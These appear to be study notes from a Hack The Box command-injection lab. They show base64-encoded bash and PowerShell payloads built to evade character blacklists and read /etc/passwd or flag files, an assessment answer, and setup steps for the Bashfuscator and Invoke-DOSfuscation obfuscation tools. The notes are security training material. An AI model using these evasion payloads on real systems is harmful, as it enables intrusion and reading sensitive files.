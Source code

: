 ```bash
pradyun2005@htb[/htb]$ bash<<<$(base64%09-d<<<Y2F0JTA5JHtQQVRIOjA6MX1mbGFnLnR4dA==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

- we are using <<< since | is blacklisted


##### WINDOWS

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```




**ASSESMENT**

1) Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
```bash
echo -n 'cat%0' | base64
```

```bash
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```


### Evasion Tools

-  [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator) -> **LINUX**
- setup
```shell
pradyun2005@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
pradyun2005@htb[/htb]$ cd Bashfuscator
pradyun2005@htb[/htb]$ pip3 install setuptools==65
pradyun2005@htb[/htb]$ python3 setup.py install --user
pradyun2005@htb[/htb]$ cd ./bashfuscator/bin/
pradyun2005@htb[/htb]$ ./bashfuscator -h
pradyun2005@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'
```

-  [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) -> **WINDOWS**
- setup
```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```
